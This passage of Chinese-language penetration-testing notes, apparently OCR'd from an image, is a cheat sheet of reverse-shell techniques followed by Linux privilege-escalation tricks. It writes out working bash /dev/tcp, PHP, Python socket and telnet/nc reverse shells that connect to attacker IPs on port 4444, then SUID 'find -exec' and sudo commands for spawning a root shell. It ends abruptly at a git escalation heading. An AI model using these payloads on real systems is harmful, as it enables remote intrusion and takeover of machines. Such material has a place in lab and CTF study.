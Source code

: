 \>\$ 0\>\$1 都是重定向的标志

bash -i 打开交互的bash

**echo 升级版bash反弹**

echo \"bash -i \>& /dev/tcp/172.16.123.102/4444 0\>&1\" \| bash

**PHP脚本利用bash反弹shell**

\<?php system(\"bash -c \'bash -i \>& /dev/tcp/172.16.123.122/4444
0\>&1\' \")?\>

将所有输入输出都重定向到攻击机的4444端口

python代码执行反弹shell的脚本如下：

import socket,os,subprocess

RHOST=\'192.168.26.20\' \# Change it

RPORT=4444 \# Change it

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM) \#
创建一个TCP-socket对象

s.connect((RHOST,RPORT)) \# 连接攻击者

os.dup2(s.fileno(),0)# 复制链接符

os.dup2(s.fileno(),1)

os.dup2(s.fileno(),2)

p=subprocess.call(\[\"/bin/sh\",\"-i\"\]) \# 创建子进程调用SHELL

**telnet进行反弹**

在攻击机开两个端口一个输入，一个输出

nc -lvp 4444

nc -lvp 5555

telnet 172.16.123.123/4444 \| /bin/bash \| telnet 172.16.123.123/5555

**编程语言也可以进行反弹，有些命令明明是有但用不了
比如说ifconfig用不了，我们可以whereis ifconfig 得到绝对路径
换一种方法使用/usr/sbin/ifocnfig**

find提权

根据提示信息中的-exec很容易想到find提权，检验一下find是否具有SUID。

find / -perm -u=s -type f 2\>/dev/null

使用find -exec生成一个具有root权限的shell

sudo find -exec \'/bin/sh\' \\;

这里可以用nc进行文件传输

git提权

sudo -l
